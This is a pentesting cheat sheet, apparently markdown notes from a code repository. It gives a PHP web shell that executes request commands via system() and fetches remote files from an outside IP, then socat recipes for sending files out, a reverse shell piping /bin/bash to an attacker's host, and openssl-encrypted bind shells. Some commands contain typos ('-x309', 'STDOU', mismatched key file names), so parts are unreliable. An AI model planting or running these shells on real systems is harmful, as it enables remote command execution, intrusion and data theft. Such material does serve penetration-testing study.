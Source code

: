 - RCE and RFI via PHP 
  ```php
    <?php 
      if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.17.20:8000/" . $_REQUEST['fupload']));
      }
      if (isset($_REQUEST['cmd'])){
        echo system($_REQUEST["cmd"]);
      }	
    ?>
  ```
- mkt script, to create a pentesting folder environment
  ```bash
    #!/bin/bash
    if [[ $# -eq 1 ]]; then
      mkdir -p $1/{nmap,content,exploits,scripts}
      exit 0
    else
      echo "The name of the folder is needed"
      exit 1
    fi
  ```
<br>

## Socat

### Client
  ```bash
  socat - TCP4:>remote server's IP>:80
  ```
### Server
  ```bash
  sudo socat TCP4-LISTEN:443 STDOU
  ```
### Send a file
  ```bash
  sudo socat TCP4-LISTEN:443,fork file:pass.txt
  ```
  
### Receive a file
  ```bash
  sudo socat TCP4:<Server IP>:443 file:pass.txt,create
  ```
### Reverse Shell
  ```bash
  #Attacker's machine
  socat -d -d TCP4-LISTEN:443 STDOUT
  #The -d -d are used to add verbosity
  ```
  
  ```bash
  #Victim's machine
  socat TCP:<Attacker's IP>:443 EXEC:/bin/bash
  ```
  
  ### Encrypted Bind Shells
  We will use **openssl** to create a self-signed cert with the following options:
  * **req**
  * **-newkey**
  * **rsa:2048**
  * **-nodes**
  * **-keyout**
  * **-x309**
  * **-days**
  * **-out**
    ```bash
     openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out shell.crt
     ```
     ```bash
     cat shell.key shell.crt > shell.pem
     ```
     <br>
     
     ```bash
     Victim's machine
     sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
     ```
     ```bash
     Attacker's machine
     socat - OPENSSL:<Victim's IP>:443,verify=0
     ```
  
  

  
